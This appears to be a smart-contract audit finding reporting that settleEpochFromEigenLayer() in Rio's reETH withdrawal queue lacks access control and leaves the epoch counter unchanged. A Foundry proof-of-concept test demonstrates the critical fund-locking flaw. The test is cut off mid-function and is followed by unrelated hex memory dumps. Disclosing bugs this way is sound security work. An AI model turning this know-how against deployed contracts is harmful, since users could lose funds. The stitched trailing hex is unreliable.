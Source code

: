 Also note that there is no access control on `settleEpochFromEigenLayer()`, so as long as the provided withdrawal parameters are correct anybody can call the function. 

## Impact
Critical - system no longer operates, loss of users funds

## Code Snippet
The following test can be dropped into `RioLRTWithdrawalQueue.t.sol`
```solidity
 function test_lockAsset() public {
        uint8 operatorId = addOperatorDelegator(reETH.operatorRegistry, address(reETH.rewardDistributor));
        address operatorDelegator = reETH.operatorRegistry.getOperatorDetails(operatorId).delegator;

        // Deposit ETH, rebalance, and verify the validator withdrawal credentials.
        uint256 depositAmount = (ETH_DEPOSIT_SIZE - address(reETH.depositPool).balance);
        uint256 withdrawalAmount = 10 ether;
        assertGt(depositAmount, withdrawalAmount * 2); // We will be withdrawing twice
        reETH.coordinator.depositETH{value: depositAmount}();
        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);
        uint40[] memory validatorIndices = verifyCredentialsForValidators(reETH.operatorRegistry, 1, 1);

        // Request a withdrawal and rebalance to kick off the Eigenlayer withdrawal process
        reETH.coordinator.requestWithdrawal(ETH_ADDRESS, withdrawalAmount);
        skip(reETH.coordinator.rebalanceDelay());
        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);

        // Ensure no reETH has been burned yet and process withdrawals.
        assertEq(reETH.token.totalSupply(), ETH_DEPOSIT_SIZE);
        verifyAndProcessWithdrawalsForValidatorIndexes(operatorDelegator, validatorIndices);

        // Settle the withdrawal epoch. This marks the epoch as settled and
        // makes the requested withdrawal amount available to be claimed.
        uint256 withdrawalEpoch = reETH.withdrawalQueue.getCurrentEpoch(ETH_ADDRESS);
        IDelegationManager.Withdrawal[] memory withdrawals = new IDelegationManager.Withdrawal[](1);
        withdrawals[0] = IDelegationManager.Withdrawal({
            staker: operatorDelegator,
            delegatedTo: address(1),
            withdrawer: address(reETH.withdrawalQueue),
            nonce: 0,
            startBlock: 1,
            strategies: BEACON_CHAIN_STRATEGY.toArray(),
            shares: withdrawalAmount.toArray()
        });
        reETH.withdrawalQueue.settleEpochFromEigenLayer(ETH_ADDRESS, withdrawalEpoch, withdrawals, new uint256[](1));

        IRioLRTWithdrawalQueue.EpochWithdrawalSummary memory epochSummary =
            reETH.withdrawalQueue.getEpochWithdrawalSummary(ETH_ADDRESS, withdrawalEpoch);
        // Epoch is settled
        assertTrue(epochSummary.settled);

        // However, the epoch has not been incremented - we're still in epoch 0 even after settlement
        assertEq(reETH.withdrawalQueue.getCurrentEpoch(ETH_ADDRESS), 0);

        // We can still create new withdrawal requests for this epoch and increase sharesOwed
```

[0x00:0x20]: 0x0000000000000000000000000000000000000000000000000000000000000000
[0x20:0x40]: 0x0000000000000000000000000000000000000000000000000000000000000000
[0x40:0x60]: 0x00000000000000000000000000000000000000000000000000000000000000e0
[0x60:0x80]: 0x0000000000000000000000000000000000000000000000000000000000000000
[0x80:0xa0]: 0x0000000000000000000000000000000000000000000000000000000000000030
[0xa0:0xc0]: 0x95cfcb859956953f9834f8b14cdaa93900000000000000000000000000000000
[0xc0:0xe0]: 0x8af94bc3ba4d4bfa93d087d522e4b78d00000000000000000000000000000000